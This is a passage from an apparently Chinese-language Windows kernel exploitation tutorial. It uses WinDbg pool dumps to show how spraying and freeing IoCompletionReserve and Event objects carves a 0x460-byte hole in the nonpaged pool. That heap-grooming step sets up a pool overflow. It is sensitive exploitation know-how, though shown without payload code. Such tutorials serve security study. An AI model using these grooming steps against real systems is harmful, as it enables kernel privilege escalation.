 

```
kd&gt; !pool 85d1f000
Pool page 85d1f000 region is Nonpaged pool
*85d1f000 size:   60 previous size:    0  (Allocated) *IoCo (Protected)
        Owning component : Unknown (update pooltag.txt)
 85d1f060 size:   60 previous size:   60  (Allocated)  IoCo (Protected)       &lt;--- chunk first allocated in the page
 85d1f0c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f100 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f160 size:   40 previous size:   60  (Allocated)  Even (Protected)
......
 85d1ff60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1ffc0 size:   40 previous size:   60  (Allocated)  Even (Protected)
```



**构建洞**

****

“IoCo”标志代表IoCompletionReserve对象，“Even”标志代表Event对象。请注意，我们第一个区块的偏移量是0x60，这就是我们开始释放（free）的偏移量。如果我们释放一组IoCompletionReserve和Event对象，那么我们的计算结果便是：



```
&gt;&gt;&gt; "0x%x" % (0x7 * 0xa0)
'0x460'
&gt;&gt;&gt;
```

此时，会产生我们所希望的大小。让我们迅速来看看如果我们只释放接下来的7个IoCompletionReserve对象后会怎么样：



```
kd&gt; !pool 85d1f000
Pool page 85d1f000 region is Nonpaged pool
*85d1f000 size:   60 previous size:    0  (Allocated) *IoCo (Protected)
        Owning component : Unknown (update pooltag.txt)
 85d1f060 size:   60 previous size:   60  (Free)       IoCo
 85d1f0c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f100 size:   60 previous size:   40  (Free)       IoCo
 85d1f160 size:   40 previous size:   60  (Allocated)  Even (Protected)
......
 85d1f420 size:   60 previous size:   40  (Free)       IoCo
 85d1f480 size:   40 previous size:   60  (Allocated)  Even (Protected)
 85d1f4c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1f520  size:      40  previous size:       60    (Allocated)    Even  (Protected)
......
 85d1ff60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 85d1ffc0 size:   40 previous size:   60  (Allocated)  Even (Protected)
```

可以看出，我们已经拥有很多已被释放的块，但它们是各自独立的。但是，我们仍需要把它们合并成一个0x460的区块。我们首先将区块的偏移量设置为0x60（第一个指向0xXXXXY060）。
